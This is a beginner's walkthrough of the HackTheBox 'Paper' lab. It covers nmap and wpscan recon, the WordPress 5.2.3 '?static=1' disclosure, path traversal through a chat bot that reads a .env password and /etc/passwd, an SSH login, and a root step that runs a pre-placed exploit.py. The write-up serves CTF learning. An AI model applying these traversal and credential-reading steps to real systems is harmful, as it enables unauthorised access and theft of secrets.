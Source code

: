 # HackTheBox-Paper-Walkthrough
This the the walkthrough for Paper lab in HackTheBox (https://app.hackthebox.com/machines/Paper)
This is my first public walkthrough for a CTF. I would appriciate any contructive critism and suggestions.


This Lab/CTF focuses on Enumerating skills and LFI skills, it does not focus on Priv-Esc or other things which are unlike other CTFs.

*****
NOTES = Replace <ip<ip>> with your machine's IP and i have purposefully redacted my machine's ip with "*".
*****

## Enumerating </br>

   I used `nmap` to analyse the IP and see the active ports and services running.</br>
      
```
nmap -sC -sV <ip>
```
<pre>
nmap -sC -sV **.**.**.***
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 03:48 IST
Nmap scan report for office.paper (**.**.**.***)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: Blunder Tiffin Inc. &#8211; The best paper company in the elec...
|_http-generator: WordPress 5.2.3
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.51 seconds  
</pre>

Visited the IP in browser but it was a test website and nothing interesting.

So i decided to `curl` 
```
curl -I <IP>
```
<pre>curl -I **.**.**.***
HTTP/1.1 403 Forbidden
Date: Wed, 30 Mar 2022 22:19:52 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
</pre>
    
We notice `X-Backend-Server: office.paper`, so in order to access this lets add this our hosts list at `/etc/hosts`
```
sudo nano /etc/hosts
```
<pre>
127.0.0.1	localhost
127.0.1.1	kali
**.**.**.***    office.paper 
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

Than i visited `office.paper` in browser and figured out it was an wordpress website as wordpress.org was mention at bottom of page and i was sure after viewing the page source.</br>

The First thing i do if i find a wordpress website is to scan it with `wpscan` to look for vulnerabilities and users.</br>
```
wpscan -e vp vt u --url http://office.paper/
```
WOOOAH we found that it was using vulnerable wordpress version 5.2.3, which was also found by nmap.


## Exploiting </br>

I went to `exploit.db` and search for `WordPress 5.2.3` and found exploit `CVE: 2019-17671`. </br>https://www.exploit-db.com/exploits/47690

We just have to put `?static=1` at end of `office.paper` to reveal secret page in browser.
```
http://office.paper/?static=1
```
Here we found that there is another host `chat.office.paper` so we also add that to our `etc/hosts`</br>
<pre>127.0.0.1	localhost
127.0.1.1	kali
**.**.**.***   office.paper  chat.office.paper
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters</pre>
Upon visiting the `chat.office.paper` and messing with it i found that the admin `DwightKSchrute` added a bot called `Recyclops`.</br>

After messing with `Recyclops` i figured out that it take certain commands as mentioned in chat but has to start with "recyclops".
</br>
`recyclops list ./` = `ls` </br>
`recyclops file ./<filename>` = `cat <filename>`</br>

Yes i did LFI by adding `./`.</br>
I did not found anything interesting using 
`recyclops list ./`
so i decided to go deeper by using
```
recyclops list ./../
```
I found `user.txt` but we didnt have permission to read it.

Their was a unusual file named "hubot", so i listed its contents using 
```
recyclops list ./../hubot/
```
I read each file content but found password in `.env` file. I used command 
```
recyclops file ./../hubot/.env
```
I have PASSWORD but no USERNAME so i listed the `/etc/passwd ` directory. Using
```
recyclops list ./../../../etc/passwd
```

We found username `dwight`.

## Gaining Access </br>
I ssh into server using credentials found. 
```
ssh dwight@<ip>
```
Enter the Password you found.</br>
Now you have remote shell access via ssh.</br>

I read user.txt
```
cat user.txt
```

## Priv-Esc</br>

This lab did not focused too much on priveledge escalation as i would assume it was about enumeration and LFI.</br>
`linpeash.sh` and `exploit.py` was already their in that directory.

You can directory run `exploit.py` to gain root access by using
```
python3 exploit.py
```
If it doesn't work, run the same command again!</br>
or 

You can run `linpeas.sh` to find vulnerablity and find online exploit and tranfer to this machine and run it but it was already given to us i.e `exploit.py`. 
To run `linpeas.sh` use command
```
./linpeash.sh
```
or 
```
bash linpeas.sh
```
</br>

Read the Root Flag  at `/root/root.txt`
```
cat /root/root.txt
```





